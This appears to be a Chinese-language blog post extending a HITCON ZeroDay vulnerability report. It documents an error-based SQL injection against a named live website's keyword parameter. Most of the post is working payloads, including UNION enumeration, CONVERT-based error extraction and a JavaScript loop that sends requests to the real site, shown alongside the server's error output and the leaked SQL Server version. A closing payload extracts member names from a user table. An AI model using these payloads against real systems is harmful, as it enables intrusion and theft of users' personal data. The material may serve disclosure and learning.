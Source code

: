 ```yaml
---
title: SQL Injection wowisee Success
description: SQL Injection wowisee Success
last_update:
  date: "2025-08-21T08:00:00+08:00"
---
```


本文是 https://zeroday.hitcon.org/vulnerability/ZD-2025-01030 的延伸

<!-- ## 先備知識

- 目標: `https://www.wowisee.com/list2.asp?keyword=`，keyword 是注入點
- 網站架構: Microsoft-IIS/8.5 + ASP.NET
- Server 會回傳 SQL Error Message
- 回傳的編碼是 Big5
- 可使用 Burp Suite 把 Hex 複製下來，再用 [hextostring](https://www.hextostring.com/) 轉換 -->

<!-- ## 測試過程

- 使用 Burp Suite Repeater 發送 HTTP Request
- queryString 的 value 使用我熟悉的 JS 來生成

```js
const sp = new URLSearchParams();
sp.append("keyword", `'`);
console.log(sp.toString().split("keyword=")[1]);
```

1. `%27`

```html
<font face="Arial" size="2">
  <p>Microsoft OLE DB Provider for SQL Server</p></font
>
<font face="Arial" size="2">錯誤 '80040e14'</font>
<p>
  <font face="Arial" size="2"
    >遺漏字元字串 ' Order By 上刊日期 desc' 後面的引號。</font
  >
</p>

<p>
  <font face="Arial" size="2">/app/Scripts/DataList.js</font
  ><font face="Arial" size="2">, 行308</font>
</p>
```

2. `%27--123`

成功查詢到，代表註解有成功

3. `%27+UNION+SELECT+NULL--123`

```html
<font face="Arial" size="2">
  <p>Microsoft OLE DB Provider for SQL Server</p></font
>
<font face="Arial" size="2">錯誤 '80040e14'</font>
<p>
  <font face="Arial" size="2"
    >使用 UNION、INTERSECT 或 EXCEPT
    運算子結合的所有查詢，其目標清單中的運算式數量必須相等。</font
  >
</p>

<p>
  <font face="Arial" size="2">/app/Scripts/DataList.js</font
  ><font face="Arial" size="2">, 行308</font>
</p>
```

接下來應該就是瘋狂 UNION 直到欄位相同？

3. `%27+UNION+SELECT+NULL%2CNULL--123`

```js
for (let i = 2; i < 100; i++) {
  const nulls = Array(i).fill("NULL").toString();
  const sp = new URLSearchParams();
  sp.append("keyword", `' UNION SELECT ${nulls}--123`);
  fetch(`https://www.wowisee.com/list2.asp?${sp.toString()}`, {
    referrerPolicy: "origin",
    credentials: "omit",
  }).then((res) => console.log(i, res.status));
}
```

真奇怪，到 100 個 NULL 都是同樣的錯誤訊息，只好改成用 Error-Based SQLi 來嘗試

4. `%27%3BSELECT+%27hello%27+WHERE+1+%3D+%28SELECT+%40%40version%29--123`

```html
<font face="Arial" size="2"> <p>ADODB.Recordset</p></font>
<font face="Arial" size="2">錯誤 '800a0cb3'</font>
<p>
  <font face="Arial" size="2"
    >目前資料錄集 (Recordset) 不支援書籤。這可能成為提供者或所選資料指標類型
    (cursortype) 的限制。</font
  >
</p>

<p>
  <font face="Arial" size="2">/app/Scripts/DataList.js</font
  ><font face="Arial" size="2">, 行432</font>
</p>
```

5. `%27+AND+CONVERT%28int%2C%40%40version%29--123`

```
<font face="Arial" size=2>
<p>Microsoft OLE DB Provider for SQL Server</font> <font face="Arial" size=2>錯誤 '80040e14'</font>
<p>
<font face="Arial" size=2>在有預期條件的內容中指定的非布林類型運算式，接近 ')'。</font>
<p>
<font face="Arial" size=2>/app/Scripts/DataList.js</font><font face="Arial" size=2>, 行308</font>
```

所以 AND 後面要接一個 Boolean 運算

6. `%27+AND+1+%3D+CONVERT%28int%2C%40%40version%29--123`

```html
<font face="Arial" size="2">
  <p>Microsoft OLE DB Provider for SQL Server</p></font
>
<font face="Arial" size="2">錯誤 '80040e07'</font>
<p>
  <font face="Arial" size="2"
    >將 nvarchar 值 'Microsoft SQL Server 2008 (SP4) - 10.0.6000.29 (X64) Sep 3
    2014 04:11:34 Copyright (c) 1988-2008 Microsoft Corporation Enterprise
    Edition (64-bit) on Windows NT 6.1 &lt;X64&gt; (Build 7601: Service Pack 1)
    ' 轉換成資料類型 int 時，轉換失敗。</font
  >
</p>

<p>
  <font face="Arial" size="2">/app/Scripts/DataList.js</font
  ><font face="Arial" size="2">, 行308</font>
</p>
```

成功提取到 MSSQL 的版本資訊，真詳細

```
Microsoft SQL Server 2008 (SP4) - 10.0.6000.29 (X64)
	Sep  3 2014 04:11:34
	Copyright (c) 1988-2008 Microsoft Corporation
	Enterprise Edition (64-bit) on Windows NT 6.1 &lt;X64&gt; (Build 7601: Service Pack 1)
```

7. 接下來請參考 [ZD-2025-01030](https://zeroday.hitcon.org/vulnerability/ZD-2025-01030) -->

## 學到的東西

1. 編碼轉換，可使用 [Hex to String Converter Online](https://www.hextostring.com/)
2. MSSQL 引出 SQLi Error Message 的方法

```sql
' AND 1 = CONVERT(int,(SELECT TOP 10 姓名 + '|' FROM 會員 FOR XML PATH('')))--123
```

3. 需要看 HTTP Response Hex 的時候，真的要用 Burp Suite 的 Repeater，超好用
